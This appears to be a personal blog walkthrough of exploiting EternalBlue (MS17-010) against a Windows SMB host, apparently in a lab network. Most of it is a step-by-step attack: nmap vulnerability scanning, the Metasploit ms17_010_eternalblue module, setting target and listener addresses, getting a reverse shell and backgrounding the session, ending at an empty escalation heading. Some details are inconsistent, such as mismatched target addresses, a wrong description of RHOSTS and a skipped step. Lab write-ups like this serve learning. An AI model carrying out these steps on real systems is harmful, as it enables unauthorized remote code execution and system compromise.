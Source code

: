 ```yaml
---
title: "Eternal Blue Exploit"
excerpt: "finding out and exploiting smb on port 445"
date: 2025-07-23
tags: [nmap, exploits, eternalblue, wanacry]
layout: single
author_profile: true
---
```

### What Is EternalBlue?

ternalBlue (tracked as MS17–010) is a vulnerability in Microsoft’s Server Message Block (SMB) protocol, 
specifically on port 445. SMB helps devices on a network (like printers and file servers) 
communicate with each other.

The National Security Agency (NSA) originally discovered this vulnerability and created an 
exploit for it. Eventually, it was leaked and adapted by hackers into the WannaCry ransomware,
causing global havoc.

steps are as follows:

1. run nmap -p 445 10.10.50.15 on your target to confirm that SMB (port 445) is open because
 EternalBlue attacks the SMB service.
2. Check vulnerability by running sudo nmap -sV -vv --script vuln 10.10.50.15. In the host script
 results you would see something like ost script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   **VULNERABLE:**
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: **VULNERABLE**

3. Start metasploit by running **msfconsole** in your terminal
4. Your vulnerability was ms17-010 as per the above report , so tun **search ms17-010**
    or just do **search scanner eternalblue**
   The exploitation code is exploit/windows/smb/ms17_010_eternalblue so use the exploit by running
   exploit/windows/smb/ms17_010_eternalblue
5.  Run **show option** to see the required value which is **RHOSTS** This tells Metasploit who the target is.
6.  INterminal , **set RHOSTS 10.10.7.58** then enter. This tells Metasploit where to receive the reverse shell.
7.  check your LHOST by running ip a | grep tun0, it is inet 10.23.144.37/16 scope global tun0
8.  also set alhost ie **set LHOST 10.23.144.37**
9.  run the exploit **run** after it runs, you may need to press **enter** to make it show prompt
    i.e **C:\Windows\System32>** if you wish you may try command like
      whoami
      hostname
      ipconfig       to prove the RHOST terminal is now displaying on your side

11.  While still in the shell (where you see C:\Windows\system32>), press: CTLL + Z,
    This will return you to the Metasploit console (msf6 >),
     while keeping that session active in the background. Run commands like sessions -i 85 later
      to go back into the shell.

     #### Escalate
     

